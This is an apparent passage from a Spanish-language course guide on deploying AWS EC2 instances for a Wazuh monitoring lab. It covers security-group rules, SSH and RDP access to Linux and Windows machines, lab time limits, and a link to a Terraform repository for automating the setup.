

En configuraciones de red lo único que debemos hacer es dejar marcada la opción por defecto ***Crear grupo de seguridad*** y marcarle que permita tanto el tráfico SSH desde cualquier lugar, como el tráfico HTTP desde Internet.

Los grupos de seguridad son, de forma aproximada, una especie de Firewall que filtra las conexiones desde y hacia nuestras instancias.

!!!warning "¡Atención!"
    Los clientes Linux y Windows que contendrán sendos agentes, alojan su contenido mediante servidores web en el puerto (80), HTTP. Sin embargo, el servidor de Wazuh o Wazuh manager, utiliza sólo HTTPS con certificado autofirmado para su interfaz web. 

    Tened esto en cuenta a la hora de crear la instancia y marcad la casilla correspondiente. 

    Si os despistáis, más adelante se explica cómo modificar grupos de seguridad.

Tras lanzar la instancia, se encontrará en estado *Iniciando* y después pasará a *En ejecución*.

### EC2 Windows

Lanzamos otra vez una nueva instancia, indicando el nombre que queramos y diciéndole que se tratará de un Windows:



Puesto que carecemos de la opción de un Windows 10/11, utilizaremos entonces un Windows Server como cliente.

Como se indicó anteriormente, ha de ser *t2.medium*: 


De nuevo, indicamos las claves *vockey* y permitimos tanto tráfico SSH, como HTTP:


Tras lanzar la instancia, se encontrará en estado *Iniciando* y después pasará a *En ejecución*.


### Cuestiones genéricas

#### Más reglas en los grupos de seguridad

Para el servidor de Wazuh y para la máquina atacante, vamos a modificar sus grupos de seguridad para que puedan comunicarse con cualquier máquina de la red sin problemas.

Marcamos la instancia que queramos modificar y seleccionamos la pestaña *Seguridad*:



Localizamos el grupo de seguridad y haremos click sobre él:



Una vez dentro del grupo, editamos las reglas **de entrada**:


Las instancias se crean por defecto en la red `172.31.0.0/16`. Permitiremos entonces todo el tráfico de entrada proveniente de dicha red, añadiendo una regla a tal efecto:



#### Conexión remota a las máquinas

##### Linux

Accedemos a la pantalla primigénia desde donde lanzamos nuestro laboratorio y en la sección de *AWS Details* tendremos la posibilidad de descargarnos unas claves para la conexión que queremos llevar a cabo. Así pues, las descargamos, tal y como indica el paso 2:



Es importante darle los permisos adecuados a la clave privada recién descargada, de otra forma no nos permitirá conectarnos. Una vez hecho, basta con realizar una conexión normal por SSH pero indicando con el parámetro `-i`que utilizaremos el archivo de claves que nos desacargamos en el paso anterior:



La IP **pública** de cada instancia al a que queramos conectarnos podemos consultarla así:



Y de esta forma ya podemos realizar cualquier acción que necesitásemos llevar a cabo, tal y como si se tratase de una máquina virtual en nuestra máquina.

##### Windows

Para el caso de Windows, en lugar de conectarnos usando SSH, lo haremos mediante escritorio remoto (RDP). Para ello el proceso es un poco distinto, veámoslo.

Igual que para el caso de Linux, necesitaremos la clave privada que nos podemos descargar. No obstante, la conexión se realizará utilizando algún cliente RDP. Si utilizáis Windows para conectaros, el cliente lo tendréis nativo. Si por otra parte utilizáis Linux, necesitaréis alguna aplicación tipo Remmina o similar.

El primer paso será seleccionar nuestra instancia Windows y darle a *Conectar*:




En esta sección le diremos que nos vamos a conectar mediante un cliente RDP:


Nos descargaremos el archivo *.rdp* que utilizaremos para conectarnos y, tras ello, le daremos a *Obtener contraseña* para obtener las credenciales a utilizar:


Para poder obtener nuestra contraseña debemos hacer uso del archivo de clave privada que nos descargamos en seccines anteriores (es el mismo para todas las instancias).

Lo cargaremos y, una vez hecho, le daremos a descifrar contraseña:


Una vez obtenida la contraseña no queda más que utilizar el cliente RDP elegido (en mi caso Remmina) para abrir el archivo *.rdp* y conectarnos utilizando la contraseña obtenida:








!!!warning "¡Atención!"
    El laboratorio se apaga automáticamente a las 4 horas, tiempo más que suficiente para llevar a cabo la práctica. En caso contrario, podréis reiniciarlo puesto que sólo se apagan las instancias pero no se pierde el trabajo.

    Si trabajáis en varias tandas o acabáis antes de las 4 horas, apagadlo vosotros para evitar gastos innecearios en vuestro crédito de 100$. Para ello, en la página de lanzamiento del laboratorio, esta vez le daremos a ***End lab***

## Despliegue automatizado del escenario

Para desplegar este escenario de forma automatizada en AWS se puede hacer uso del siguiente repositorio: 

[https://github.com/raul-profesor/wazuh-webshells-terraform.git](https://github.com/raul-profesor/wazuh-webshells-terraform.git)